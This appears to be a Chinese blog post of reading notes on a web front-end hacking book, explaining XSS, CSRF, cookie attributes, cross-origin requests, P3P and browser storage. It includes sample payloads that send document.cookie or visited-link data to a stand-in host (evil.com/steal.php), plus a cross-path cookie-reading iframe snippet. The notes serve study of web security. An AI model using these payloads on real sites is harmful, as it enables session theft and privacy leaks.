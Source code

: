 ```yaml
---
title: 读《web前端黑客技术揭秘》
date:   2018/6/1
categories: 
    - 学习
tags:
    - 读书笔记 
---
```


XSS 跨站脚本攻击
如果攻击者构造出如下链接：
http://www.foo.com/info.html#new%20Image().src="http://www.evil.com/steal.php?c="+escape(document.cookie)
浏览器解释执行后，下面的语句：
eval(location.hash.substr(1));
会变为：
eval('new Image().src="http://www.evil.com/steal.php?c="+escape(document.
cookie)')
Cookies 会话信息就会被盗取到黑客的网站上

CSRF 是跨站请求伪造，CSRF 会借用目标用户的权限做一些借刀杀人的事（注意是“借用”，而不是“盗取”
目标权限），然后去做坏事，
“盗取”通常是XSS（跨站脚本攻击）最喜欢做的事。

APT（持久化威胁）攻击
如果是个反射型的XSS，IE 8/IE 9/Chome 直接就给拦截了。

HTTP 是无状态的，那么每次在连接时，服务端如何知道你是上一次的那个？
这里通过Cookies 进行会话跟踪，第一次响应时设置的Cookies 在随后的每次请求中都会发
送出去。Cookies 还可以包括登录认证后的身份信息。

Content-Type: text/html;charset=gbk
响应资源的类型与字符集。针对不同的资源类型会有不同的解析方式，这个会影响浏
览器对响应体里的资源解析方式，可能因此带来安全问题。字符集也会影响浏览器的解码
方式，同样可能带来安全问题。

Set-Cookie: USERID=c7888882e039b32fd7b4d3; expires=Tue, 01 Jan 2030
00:00:00 GMT; path=/; domain=.foo.com
每个 Set-Cookie 都设置一个Cookie（key=value 这样），随后是如下内容。
expires：过期时间，如果过期时间是过去，那就表明这个Cookie 要被删。
path：相对路径，只有这个路径下的资源可以访问这个Cookie。
domain：域名，不允许设为下一级子域或其他外域，可以指定为父级域
HttpOnly：标志（默认无，如果有的话，表明Cookie 存在于HTTP 层面，不能被客户
端脚本读取）。
Secure：标志（默认无，如果有的话，表明Cookie 仅通过HTTPS 协议进行安全传输）。但是Secure Cookie 对于客户端脚本来说是可读写的。可读意味着
Secure Cookie 能被盗取，可写意味着能被篡改。

### iframe
攻击者入侵一个网站后，可以通过iframe 嵌入自己的网马页面，用户访问该网站后，被嵌入的网马页面就会执行

当网站页面使用iframe 方式嵌入一个页面时，
我们约定网站页面是父页，而被嵌入的这个页面是子页。那么父页与子页之间如何跨文档读写数据？
如果父页和子页之间是同域，那就很容易，父页可以通过调用子页的contentWindow
来操作子页的DOM 树，同理，子页可以调用父页的contentWindow 来操作父页的DOM 树。
如果它们不同域，则必须遵守同源策略，但子页还是可以对父页的location 值进行写操作，
这样可以让父页重定向到其他网页，不过对location 的操作仅仅只有写权限，而没有读权
限，这样就不能获取到父页location URL 的内容，否则有可能会造成隐私数据泄漏，

### 跨域
 www.foo.com（来源域）的AJAX 向www.evil.com（目标域）发起了请求，浏览器会
给自动带上Origin 头，如下：
Origin: http://www.foo.com
然后目标域要判断这个Origin 值，如果是自己预期的，那么就返回：
Access-Control-Allow-Origin: http://www.foo.com
表示同意跨域

如果目标域不设置Access-Control-Allow-Origin: http://www.foo.com，那么隐私数据可
以被偷到吗？答案是肯定的。虽然浏览器会报权限错误的问题，但实际上隐私数据已经被
目标域的steal.php 接收到了。

### 跨域带上会话
默认情况下，跨域不会带上目标域的会话（Cookies 等），需要设置xhr 实例的withCredentials 属性为true（IE 还不支持），同时目标域的steal.php 必须设置如下：
<?php
header("Access-Control-Allow-Origin: http://www.foo.com");
header("Access-Control-Allow-Credentials: true"); // 允许跨域证书发送
//...
?>
有 一 点 需 要 注 意 ， 如 果设置了Access-Control-Allow-Credentials 为true ， 那么
Access-Control-Allow-Origin 就不能设置为*通配符

### 跨路径读取Cookie
那么有什么办法跨路径读取Cookie？比如，/evil/路径想读取/admin/路径的Cookie。很简单，通过跨iframe 进行
DOM 操作即可，/evil/路径下页面的代码如下：
```javascript
xc = function(src){
var o = document.createElement("iframe"); // iframe 进入同域的目标页面
o.src = src;
document.getElementsByTagName("body")[0].appendChild(o);
o.onload = function(){ // iframe 加载完成后
d = o.contentDocument || o.contentWindow.document;
// 获取document 对象
alert(d.cookie); // 获取cookie
};
}('http://a.foo.com/admin/index.php');
```
所以，通过设置path 不能防止重要的Cookie 被盗取。

### 本地Cookie 与内存Cookie
如果没设置过期时间，就是内存Cookie，这样的Cookie 会随着浏览器的关闭而从内存中消失；如果设置了
过期时间是未来的某个时间点，那么这样的Cookie 就会以文本形式保存在操作系统本地，
待过期时间到了才会消失。

### P3P
HTTP 响应头的P3P（Platform for Privacy Preferences Project）字段是W3C 公布的一项
隐私保护推荐标准。该字段用于标识是否允许目标网站的Cookie 被另一个域通过加载目标
网站而设置或发送，仅IE 执行了该策略。
比如，evil 域通过script 或iframe 等方式加载foo 域（此时foo 域被称为第三方域）。
加载的时候，有两种场景

1. 浏览器是否会允许foo 域设置自己的Cookie

    在IE 下默认都是不允许第三方域设置域已有的Cookie的，除非foo 域在``响应的时候带上P3P 字段``

2. 浏览器是否允许发送请求到foo 域时，带上foo 域已有的Cookie

    发送的Cookie 如果是内存Cookie，则无所谓是否有P3P 属性，就可以正常发送；如果
    是本地Cookie，则这个本地Cookie 必须拥有P3P 属性，否则，即使目标域响应了P3P 头
    也没用。
### IE的userData
 ```javascript
 function set_ud(key,value) {
    var a = document.getElementById('x'); // x 为任意div 的id 值
    a.addBehavior("#default#userdata");
    a.setAttribute(key,value);
    a.save("db");
}
function get_ud(key) {
    var a = document.getElementById('x');
    a.addBehavior("#default#userdata");
    a.load("db");
    alert(a.getAttribute(key));
}
function del_ud(key) {
    var a = document.getElementById('x');
    a.addBehavior("#default#userdata");
    a.setAttribute(key, ""); // 设置为空值即可
    a.save("db");
}
window.onload = function(){
    set_ud('a','xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'); // 设置
    get_ud('a'); // 获取a 的值
    del_ud('a'); // 删除a 的值
    get_ud('a'); // 获取a 的值
};
 ```
### FlashCookie
```actionScript
function set_lso(k:String="default", v:String=""):void
{ // 设置值
    var shared:SharedObject = SharedObject.getLocal("db");
    shared.data[k] = v;
    shared.flush();
}
function get_lso(k:String="default"):String
{ // 获取值
    var str:String = "";
    var shared:SharedObject = SharedObject.getLocal("db");
    str = shared.data[k];
    return str;
}
function clear_lso():void
{ // 清空值
    var shared:SharedObject = SharedObject.getLocal("db");
    shared.clear();
}
```

### 函数劫持很简单
一般情况下，只要在目标函数触发之前，重写这个函数即可

### css
```css
#a2:visited {background: url(http://www.evil.com/css/steal.php?data=a2);}
```